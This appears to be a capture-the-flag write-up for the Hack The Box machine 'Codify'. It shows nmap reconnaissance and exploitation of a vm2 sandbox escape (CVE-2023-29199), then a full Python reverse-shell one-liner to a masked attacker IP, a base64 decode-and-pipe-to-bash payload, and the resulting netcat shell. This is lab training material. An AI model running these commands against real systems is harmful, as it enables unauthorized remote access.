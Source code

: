 ![Codify](https://github.com/amalcew/htb-writeups/assets/73908014/b693185b-6355-4761-9f5c-902ed6282a52)

## Reconnaissance & port scanning

Initial port scan revealed open ports 22, 80 and 3000 used by some node.js instance

```bash
# Nmap 7.94SVN scan initiated Wed Mar  6 11:57:07 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.239
Nmap scan report for codify.htb (10.10.11.239)
Host is up, received syn-ack (0.066s latency).
Scanned at 2024-03-06 11:57:08 CET for 19s
Not shown: 992 closed tcp ports (conn-refused), 5 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Mar  6 11:57:27 2024 -- 1 IP address (1 host up) scanned in 19.26 seconds
```

After adding proper entry to `/etc/hosts` the webpage inspection was performed.

![01-codify](https://github.com/amalcew/htb-writeups/assets/73908014/8f00da85-db83-44fc-a081-b835f9aac67d)

![02-about](https://github.com/amalcew/htb-writeups/assets/73908014/e4ad795f-31e1-4be9-ac83-5bcd2f132ca6)

Apperantly, the machine hosts node.js sandbox using `vm2` library. Following the link we can discover, that the webpage leaks the version of the library, which is `3.9.16`.

Searching for potential vulnerabilities, I've came across [CVE-2023-29199](https://nvd.nist.gov/vuln/detail/CVE-2023-29199) that allows the threat actor to escape the vm2 sandbox by abusing the exception sanitization.
This behaviour was described in the [paper](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) that also explains simple proof of concept.

Checking the POC on tested website we can confirm, that the website is indeed vulnerable:

![03-rce](https://github.com/amalcew/htb-writeups/assets/73908014/d81c1d77-be96-4d5f-8f13-5824712f1ed3)

## Initial foothold

Because the website is vulnerable to remote code execution, next step is to gain initial foothold. 
The exploitation process was straightforward, as it required using proper reverse shell. In case of this machine, reverse shell was achieved using Python:

```bash
> cat reverse_shell.sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

> cat reverse_shell.sh | base64 -w 0
cHl0aG9u ... SNIP ... Il0pOycK
```

To execute this shell we need to decode it on the machine and execute, which makes the final payload:

```bash
echo cHl0aG9u ... SNIP ... Il0pOycK | base64 -d | /bin/bash;
```

Executing the payload on the machine we receive the connection on selected port:

![04-reverse_shell](https://github.com/amalcew/htb-writeups/assets/73908014/6a83a909-e7c8-4ea2-86c1-58f134d6167a)

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.239] 34166
bash: cannot set terminal process group (1254): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
